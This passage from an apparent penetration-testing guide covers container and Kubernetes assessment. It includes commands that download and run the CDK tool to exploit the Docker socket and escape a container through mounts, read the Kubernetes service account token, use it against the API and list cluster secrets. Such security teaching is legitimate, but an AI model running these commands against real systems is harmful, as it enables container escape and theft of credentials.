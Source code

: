 ```bash
# Download and setup CDK
wget https://github.com/cdk-team/CDK/releases/download/v1.5.0/cdk_linux_amd64
chmod +x cdk_linux_amd64

# Environment evaluation
./cdk_linux_amd64 evaluate

# Exploit Docker socket
./cdk_linux_amd64 exploit --type docker-sock-check

# Escape container using mounts
./cdk_linux_amd64 exploit --type mount-disk
```

#### Amicontained

```bash
# Check container isolation
wget https://github.com/genuinetools/amicontained/releases/download/v0.4.9/amicontained-linux-amd64
chmod +x amicontained-linux-amd64
./amicontained-linux-amd64
```

## Kubernetes Security Assessment

Kubernetes adds another layer of complexity with its orchestration capabilities and extensive API surface.

### Kubernetes Reconnaissance and Enumeration

When operating inside a Kubernetes cluster, gathering information is the first step:

```bash
# Check if running in Kubernetes
grep -i kubernetes /proc/1/cgroup
env | grep KUBERNETES

# Access service account token
cat /var/run/secrets/kubernetes.io/serviceaccount/token

# Use service account token for API access
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
curl -k -H "Authorization: Bearer $TOKEN" https://kubernetes.default.svc/api/v1/namespaces

# Determine pod name and namespace
NAMESPACE=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)
echo "Current namespace: $NAMESPACE"
```

**Advanced K8S Reconnaissance with kubectl:**

If kubectl is available:

```bash
# Get cluster info
kubectl cluster-info

# Check permissions
kubectl auth can-i --list

# Enumerate accessible resources
kubectl get pods --all-namespaces
kubectl get services --all-namespaces
kubectl get secrets --all-namespaces
```
